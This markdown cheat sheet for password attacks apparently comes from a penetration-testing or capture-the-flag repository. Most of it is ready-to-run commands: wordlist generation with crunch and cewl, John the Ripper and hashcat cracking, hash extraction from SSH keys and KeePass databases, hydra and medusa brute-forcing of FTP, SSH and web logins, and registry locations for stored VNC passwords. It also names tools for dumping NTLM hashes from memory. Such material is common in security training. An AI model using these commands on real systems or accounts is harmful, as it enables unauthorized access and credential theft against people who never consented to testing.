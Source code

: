 # Cheetsheet

## Finding Passwords
```
grep -rl hash
grep -rl password
```

## Wordlist creation
```
crunch 6 6 0123456789ABCDEF -o list.txt
crunch 8 8 -t ,@@^^%%%
```
```
/usr/share/crunch/charset.lsr mixalpha -o  mixda.txt
```

## Wordlist using keywords from a site
```
cewl example.com -m 6 -w out.txt
```

## Mutate wordlists
```
/etc/john/john.conf
> $[0-9]$[0-9]
```

```
john --wordlist=out.txt --rules --stdout > mutated.txt
```

## Tools
- pwdump
- fgdump
- windows credential editor (WCE) - Steal NTLM hashes from memory and auth modules

## Password Cracking
```
john hashes.txt
```

## Htaccess

```
medusa -h ip -u admin -P passwords.txt -M http -m DIR:/admin -T 20
```

## FTP
```
hydra  -l admin -P pass.txt -v ip ftp
```

## HTTP Post
```
hydra -l none -P rockyou.txt 10.10.10.43 http-post-form
"/department/login.php:username=admin&password=^PASS^:Invalid Password" -t 64 -V
```

## SSH

```
hydra -L usernames.txt -P passwords.txt -s 2222 ssh://10.10.10.66 -v -t 4
```

## Basic Auth
```
cewl example.com -m 6 -w /root/mega-cewl.txt 2> /dev/null
john --wordlist=mega-cewl.txt --rules --studout > mega-cewl-mutated.txt
medusa -h admin.example.com -u admin -P mega-cewl-mutated.txt -M http -n 81 -m DIR:/admin -T 30
```

## Salted Hash Cracking

### oclHashcat

oclHashcat input file should be in format: `passwordhash:salt`

```
oclHashcat-plus64.bin -m 110 hashes.txt ../big-wordlist --force
```

## RSA Private Key Password Recovery

```
ssh2john id_rsa > id_john
john id_john --wordlist=<PATH TO ROCKYOU.TXT>
```

## KeePass Password Recovery

```
keepass2john jeeves.kdbx > jeeves.hash
john jeeves.hash
```

## /etc/passwrd format

- [Understanding /etc/passwd File Format](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/)
- [Linux Password & Shadow File Formats](https://www.tldp.org/LDP/lame/LAME/linux-admin-made-easy/shadow-file-formats.html)
- Password Field
  - Format: `$id$salt$hashed` (`$id$$hashed` means no salt)
  - `*` account cannot be used to log in
  - `!!` user doesn't have a password
  - ` ` user doesn't have a password
  - `x` password is stored in the shadow file
  - id
    - `$1$` is MD5
    - `$2a$` is Blowfish
    - `$2y$` is Blowfish
    - `$5$` is SHA-256
    - `$6$` is SHA-512

Verify
```
pwck -r /etc/passwd
pwck -r /etc/shadow
```

Edit
```
vipw -p
vipw -s
vipw -g
```

Manually create password
```
openssl passwd -1 -salt xyz  yourpass
makepasswd --clearfrom=- --crypt-md5 <<< YourPass
mkpasswd  -m sha-512 -s <<< YourPass
echo -e "md5crypt\npassword" | grub | grep -o "\$1.*"
perl -e 'use Crypt::PasswdMD5; print unix_md5_crypt("Password", "Salt"),"\n"'
```

Update password
```
echo "username:password" | chpasswd
```
```
perl -e 'print crypt("YourPasswd", "salt"),"\n"'
echo "username:encryptedPassWd"  | chpasswd -e
OR
useradd -p 'encryptedPassWd'  username
```

## VNC

```
reg query HKLM\SOFTWARE\RealVNC\vncserver
Value: Password

reg query HKCU\Software\TightVNC\Server
Value: Password or PasswordViewOnly

reg query HKLU\Software\TigerVNC\WinVNC4
reg query HKLM\Software\TigerVNC\WinVNC4
Value: Password

C:\Program Files\UltraVNC\ultravnc.ini
Value: passwd or passwd2
```
